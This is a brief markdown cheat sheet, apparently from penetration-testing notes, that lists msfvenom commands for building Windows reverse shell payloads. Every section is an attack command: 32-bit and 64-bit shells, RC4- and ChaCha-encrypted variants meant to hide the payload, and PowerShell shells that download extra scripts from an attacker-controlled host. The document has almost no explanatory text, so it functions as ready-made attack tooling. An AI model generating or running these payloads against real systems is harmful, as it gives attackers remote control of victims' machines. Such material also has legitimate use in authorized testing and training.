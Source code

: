 # Reverse Shells

## 01 - x86 (32-bit) Payloads

- You can load powershell scripts ahead of time.

```
$ msfvenom -p cmd/windows/powershell_reverse_tcp lhost=<IP> lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell.ps1

$ msfvenom -p windows/powershell_reverse_tcp lhost=<IP> lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell.ps1
```

## 02 - x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x64.exe

$ msfvenom -p windows/x64/shell_reverse_tcp_rc4 lhost=<IP> lport=<PORT> rc4password="<KEY>" -f exe -o shell-x64.exe
```

- You can encrypt the payload

```
$ msfvenom -p windows/x64/encrypted_shell_reverse_tcp chachakey=1234567890abcdef1234567890abdcef chachanonce=1234567890ab lhost=<IP> lport=<PORT> -f exe -o shell-enc-x64.exe
```

- You can load powershell scripts ahead of time.

```
$ msfvenom -p windows/x64/powershell_reverse_tcp lhost=<IP> lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell-x64.ps1
```